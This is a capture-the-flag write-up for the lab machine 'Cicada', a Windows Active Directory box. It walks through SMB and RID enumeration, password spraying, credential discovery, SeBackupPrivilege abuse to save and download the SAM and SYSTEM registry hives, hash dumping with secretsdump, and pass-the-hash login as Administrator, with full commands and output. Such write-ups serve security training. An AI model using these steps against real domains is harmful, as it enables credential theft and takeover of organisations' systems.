

# _OVERVIEW
Cicada is easy Windows Active Directory box. it start off with enumerating SMB shares to find a new hire welcome note with a default password. RID-cycle to get a list of usernames, and spray that password to find a user still using it. With a valid user I can query LDAP to find another user with their password stored in their description. That user has access to a share with a dev script used for backup, and more creds. Those creds work to get a shell, and the user is in the Backup Operators group, so  exfil the registry hives and dump the machine hashes.

 <!-- more -->


| INFO|  |
|----|----|
|CTF NAME|**Cicada**|
|Operating System| **Windows**|
|Diffculty|   **Easy**  |
|Retire date| 21 Sep 2024
|Points |**25**|
-------------------------------
# INFORMATION GATHERING
Information gathering reveals several ports open:
```
nmap -p- 10.10.11.35 -sC -sV -oA cicada/nmap
SMB 445
RDP 3389
<SNIP>
```

# ENUMERATION
# SMB Enumeration
### anonymous access

Checking smb port for anonymous access:


SMB Share enumeration unveils a notice from HR file inside the HR share, let's check it out
note down the discovered default password: `Cicada$M6Corpb*@Lp#nZp!8`

with anonymous access enabled to the smb server, we can try to discover users with `rid bruteforcing`.

```
$ netexec smb CICADA-DC -u guest -p '' --rid-brute
SMB         10.10.11.35     445    CICADA-DC        [*] Windows Server 2022 Build 20348 x64 (name:CICADA-DC) (domain:cicada.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.35     445    CICADA-DC        [+] cicada.htb\guest: 
SMB         10.10.11.35     445    CICADA-DC        498: CICADA\Enterprise Read-only Domain Controllers (SidTypeGroup)
SMB         10.10.11.35     445    CICADA-DC        500: CICADA\Administrator (SidTypeUser)
SMB         10.10.11.35     445    CICADA-DC        501: CICADA\Guest (SidTypeUser)
SMB         10.10.11.35     445    CICADA-DC        502: CICADA\krbtgt (SidTypeUser)
SMB         10.10.11.35     445    CICADA-DC        512: CICADA\Domain Admins (SidTypeGroup)
SMB         10.10.11.35     445    CICADA-DC        513: CICADA\Domain Users (SidTypeGroup)
SMB         10.10.11.35     445    CICADA-DC        514: CICADA\Domain Guests (SidTypeG
<SNIP>
```
cleaning the  users list with grep
```
$ cat names |grep SidTypeUser| grep -oP '\\\K[^ ]+' > users-list.txt
Administrator
Guest
krbtgt
CICADA-DC$
john.smoulder
sarah.dantelia
michael.wrightson
david.orelious
emily.oscars
```
##### checking password policy


 Now i'm going to run a spraying attack at smb with the curated list of users and the found default password:
Discovered: `michael.wrightson` user


## Credentialed Smb enumeration
dumping all users:
it appears  david.orelious has left a gift for us, his Creds.
`aRt$Lp#7t*VQ!3 `
Authenticated as david reveals the DEV share

## DEV SHARE ENUMERATION
throughly enumerate content of the DEV share With the spider module:
```
$ nxc smb 10.10.11.35 -u 'david.orelious' -p 'aRt$Lp#7t*VQ!3' --spider DEV --regex .
```
 ## Script file discovery
 Inspecting the output of spider, i found a script file with credentials of another user

i found a PS-Credential object with emily.oscars credentials:
```
$username = "emily.oscars"
$password = ConvertTo-SecureString "Q!3@Lp#M6b*7t*Vt" -AsPlainText -Force
$credentials = New-Object System.Management.Automation.PSCredential($username, $password)
```
test out  the credentials with evil-winrm:

#### Privilege Escalation
checking privileges
```
whoami /priv

get-acl c:\users\administrator
```

The `SeBackupPrivilege` can be used to gain read access to any file According to microsoft docs
there are many techniques avaiable to exploit this, but im going copy the hives registery manually using `reg`:
```
*Evil-WinRM* PS C:\programdata> reg save hklm\sam sam      
The operation completed successfully.                      
                             
*Evil-WinRM* PS C:\programdata> reg save hklm\system system
The operation completed successfully. 
*Evil-WinRM* PS C:\programdata> download sam
                                        
Info: Downloading C:\programdata\sam to sam
                                        
Info: Download successful!
*Evil-WinRM* PS C:\programdata> download system
                                        
Info: Downloading C:\programdata\system to system
                                        
Info: Download successful!
```
now i'm going to extract the Administrator's hash from the registery hives with `secretsdump.py`:
```
$ secretsdump.py -sam sam -system system LOCAL
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Target system bootKey: 0x3c2b033757a49110a9ee680b46e8d620
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:2b87e7c93a3e8a0ea4a581937016f341:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
[-] SAM hashes extraction for user WDAGUtilityAccount failed. The account doesn't have hash information.
[*] Cleaning up... 
```
## or via reg.py
Impacket’s reg.py is a remote registry manipulation tool, providing similar functionality to reg.exe in Windows.
```
$ reg.py 'cicada.htb/emily.oscars:Q!3@Lp#M6b*7t*Vt'@10.10.11.35 backup -o 'C:\windows\temp\'
Impacket v0.13.0.dev0+20241024.90011.835e1755 - Copyright Fortra, LLC and its affiliated companies 

[!] Cannot check RemoteRegistry status. Triggering start trough named pipe...
[*] Saved HKLM\SAM to C:\windows\temp\\SAM.save
[*] Saved HKLM\SYSTEM to C:\windows\temp\\SYSTEM.save
[*] Saved HKLM\SECURITY to C:\windows\temp\\SECURITY.save
```
And then Download them over EvilWinRM:
```
*Evil-WinRM* PS C:\windows\temp> download SYSTEM.save
                                        
Info: Downloading C:\windows\temp\SYSTEM.save to SYSTEM.save
                                        
Info: Download successful!
*Evil-WinRM* PS C:\windows\temp> download SAM.save
                                        
Info: Downloading C:\windows\temp\SAM.save to SAM.save
                                        
Info: Download successful!
*Evil-WinRM* PS C:\windows\temp> download SECURITY.save
                                        
Info: Downloading C:\windows\temp\SECURITY.save to SECURITY.save
                                        
Info: Download successful!
```

# testing the hash
```
$ netexec smb CICADA-DC -u administrator -H aad3b435b51404eeaad3b435b51404ee:2b87e7c93a3e8a0ea4a581937016f341
SMB         10.10.11.35     445    CICADA-DC        [*] Windows Server 2022 Build 20348 x64 (name:CICADA-DC) (domain:cicada.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.35     445    CICADA-DC        [+] cicada.htb\administrator:2b87e7c93a3e8a0ea4a581937016f341 (Pwn3d!)
```
```
$ evil-winrm -i cicada.htb -u administrator -H 2b87e7c93a3e8a0ea4a581937016f341
                                        
Evil-WinRM shell v3.5
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Administrator\Documents>
```
get the flag:
```
*Evil-WinRM* PS C:\Users\Administrator\desktop> type root.txt
b7cd8************************
```